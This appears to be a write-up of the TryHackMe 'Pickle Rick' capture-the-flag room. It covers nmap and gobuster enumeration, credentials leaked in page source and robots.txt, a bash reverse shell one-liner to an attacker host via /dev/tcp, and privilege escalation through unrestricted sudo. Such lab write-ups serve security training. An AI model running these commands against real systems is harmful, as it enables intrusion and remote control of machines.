


# Pickle Rick

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Easy
OS: Linux
Subscription type: Free
Description: A Rick and Morty CTF. Help turn Rick back into a human!
```

Room link: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Solution

### Check for services with nmap

We start by scanning the machine with `nmap` for services

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Pickle_Rick]
└─$ nmap -v -sC -sV 10.10.177.72
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 17:41 CEST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 17:41
Completed NSE at 17:41, 0.00s elapsed
Initiating NSE at 17:41
Completed NSE at 17:41, 0.00s elapsed
Initiating NSE at 17:41
Completed NSE at 17:41, 0.00s elapsed
Initiating Ping Scan at 17:41
Scanning 10.10.177.72 [4 ports]
Completed Ping Scan at 17:41, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:41
Completed Parallel DNS resolution of 1 host. at 17:41, 0.01s elapsed
Initiating SYN Stealth Scan at 17:41
Scanning 10.10.177.72 [1000 ports]
Discovered open port 80/tcp on 10.10.177.72
Discovered open port 22/tcp on 10.10.177.72
Completed SYN Stealth Scan at 17:41, 0.77s elapsed (1000 total ports)
Initiating Service scan at 17:41
Scanning 2 services on 10.10.177.72
Completed Service scan at 17:41, 6.12s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.177.72.
Initiating NSE at 17:41
Completed NSE at 17:41, 1.64s elapsed
Initiating NSE at 17:41
Completed NSE at 17:41, 0.19s elapsed
Initiating NSE at 17:41
Completed NSE at 17:41, 0.01s elapsed
Nmap scan report for 10.10.177.72
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ce:49:38:9c:13:7d:88:57:46:f3:87:d8:33:24:bd:2b (RSA)
|   256 9c:7c:dd:e1:e9:b1:8c:e0:ab:1a:73:cf:84:e9:07:c1 (ECDSA)
|_  256 ae:e6:09:0f:6b:08:ed:74:fc:40:fc:65:91:38:16:2d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 17:41
Completed NSE at 17:41, 0.00s elapsed
Initiating NSE at 17:41
Completed NSE at 17:41, 0.00s elapsed
Initiating NSE at 17:41
Completed NSE at 17:41, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.80 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.036KB)
```

We have two services running:

- OpenSSH 8.2p1 on port 22
- Apache httpd 2.4.41 on port 80

### Check the web site

Next we manually check the web site on port 80.



In the HTML-source of the main page we find this interesting comment

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

And in the `robots.txt` file we find this string

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Pickle_Rick]
└─$ curl http://10.10.177.72/robots.txt
Wubbalubbadubdub
```

Could it be a password maybe?

### Scan for directories and files with gobuster

Let's see if we can locate some sort of login page or web portal

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Pickle_Rick]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.177.72 -x html,php,sh,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.177.72
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,sh,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.177.72/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
Progress: 447832 / 1102805 (40.61%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 447852 / 1102805 (40.61%)
===============================================================
Finished
===============================================================
```

`login.php` sounds like an interesting page to go next!

### Login to the web portal

Now we can see if what we found earlier are credentials to the page `http://10.10.177.72/login.php`

- Username: R1ckRul3s
- Password: Wubbalubbadubdub

We get in and find a `Command Panel`



Ultimately we want a reverse shell so we start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Pickle_Rick]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

Next, we try to execute some commands and see if we can get a reverse shell running

| Command | Output | Comment |
|----|----|----|
|which nc|/bin/nc|So netcat is installed|
|which bash|/bin/bash|And so is bash|
|id|uid=33(www-data) gid=33(www-data) groups=33(www-data)|As expected|
|pwd|/var/www/html|Also as expected|
|/bin/bash -c 'bash -i >& /dev/tcp/10.14.61.233/12345 0>&1'|We get a reverse shell|We get a reverse shell|

### What is the first ingredient that Rick needs?

Now that we have a reverse shell let's start looking for the secret ingredients

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Pickle_Rick]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.177.72] 41040
bash: cannot set terminal process group (1010): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-177-72:/var/www/html$ ls -la
ls -la
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
www-data@ip-10-10-177-72:/var/www/html$ cat Sup*
cat Sup*
mr. meeseek <REDACTED>
www-data@ip-10-10-177-72:/var/www/html$ 
```

And there we have the first ingredient: `mr. meeseek <REDACTED>`.

### What is the second ingredient in Rick’s potion?

On to the next ingredient

```bash
www-data@ip-10-10-177-72:/var/www/html$ cat clue.txt
cat clue.txt
Look around the file system for the other ingredient.
www-data@ip-10-10-177-72:/var/www/html$ find / -type f -name *ingred* 2>/dev/null
<www/html$ find / -type f -name *ingred* 2>/dev/null
/home/rick/second ingredients
www-data@ip-10-10-177-72:/var/www/html$ cd /home/rick
cd /home/rick
www-data@ip-10-10-177-72:/home/rick$ ls -l
ls -l
total 4
-rwxrwxrwx 1 root root 13 Feb 10  2019 second ingredients
www-data@ip-10-10-177-72:/home/rick$ cat second*
cat second*
1 jerry <REDACTED>
www-data@ip-10-10-177-72:/home/rick$ 
```

And there we have the second ingredient: `1 jerry <REDACTED>`.

### What is the last and final ingredient?

And finally we search for the final ingredient

```bash
www-data@ip-10-10-177-72:/home/rick$ cd ..
cd ..
www-data@ip-10-10-177-72:/home$ ls -l
ls -l
total 8
drwxrwxrwx 2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x 5 ubuntu ubuntu 4096 Jul 11  2024 ubuntu
www-data@ip-10-10-177-72:/home$ cd ubuntu
cd ubuntu
www-data@ip-10-10-177-72:/home/ubuntu$ ls -l
ls -l
total 0
www-data@ip-10-10-177-72:/home/ubuntu$ cd /
cd /
www-data@ip-10-10-177-72:/$ ls -l
ls -l
total 104
drwxr-xr-x   2 root root 12288 Jul 11  2024 bin
drwxr-xr-x   3 root root  4096 Jul 11  2024 boot
drwxr-xr-x  16 root root  3240 May  5 15:37 dev
drwxr-xr-x 108 root root 12288 May  5 15:37 etc
drwxr-xr-x   4 root root  4096 Feb 10  2019 home
lrwxrwxrwx   1 root root    30 Jul 11  2024 initrd.img -> boot/initrd.img-5.4.0-1103-aws
lrwxrwxrwx   1 root root    30 Jul 11  2024 initrd.img.old -> boot/initrd.img-4.4.0-1128-aws
drwxr-xr-x  25 root root  4096 Jul 11  2024 lib
drwxr-xr-x   2 root root  4096 Jul 11  2024 lib64
drwx------   2 root root 16384 Nov 14  2018 lost+found
drwxr-xr-x   2 root root  4096 Jul 11  2024 media
drwxr-xr-x   2 root root  4096 Nov 14  2018 mnt
drwxr-xr-x   2 root root  4096 Nov 14  2018 opt
dr-xr-xr-x 186 root root     0 May  5 15:37 proc
drwx------   4 root root  4096 Jul 11  2024 root
drwxr-xr-x  32 root root  1020 May  5 16:11 run
drwxr-xr-x   2 root root 12288 Jul 11  2024 sbin
drwxr-xr-x   8 root root  4096 Jul 11  2024 snap
drwxr-xr-x   2 root root  4096 Nov 14  2018 srv
dr-xr-xr-x  13 root root     0 May  5 15:37 sys
drwxrwxrwt   2 root root  4096 May  5 15:37 tmp
drwxr-xr-x  11 root root  4096 Jul 11  2024 usr
drwxr-xr-x  14 root root  4096 Feb 10  2019 var
lrwxrwxrwx   1 root root    27 Jul 11  2024 vmlinuz -> boot/vmlinuz-5.4.0-1103-aws
lrwxrwxrwx   1 root root    27 Jul 11  2024 vmlinuz.old -> boot/vmlinuz-4.4.0-1128-aws
www-data@ip-10-10-177-72:/$ cd root
cd root
bash: cd: root: Permission denied
www-data@ip-10-10-177-72:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-177-72:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-177-72:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-177-72:/$ 
```

Ah, so we can run any command as `root` with `sudo`. That's convenient!

```bash
www-data@ip-10-10-177-72:/var/www/html$ sudo ls -l /root
sudo ls -l /root
total 8
-rw-r--r-- 1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x 4 root root 4096 Jul 11  2024 snap
www-data@ip-10-10-177-72:/var/www/html$ sudo cat /root/3rd.txt
sudo cat /root/3rd.txt
3rd ingredients: f<REDACTED>e
www-data@ip-10-10-177-72:/var/www/html$ 
```

And there we have the final ingredient: `f<REDACTED>e`

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [robots.txt - Wikipedia](https://en.wikipedia.org/wiki/Robots.txt)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
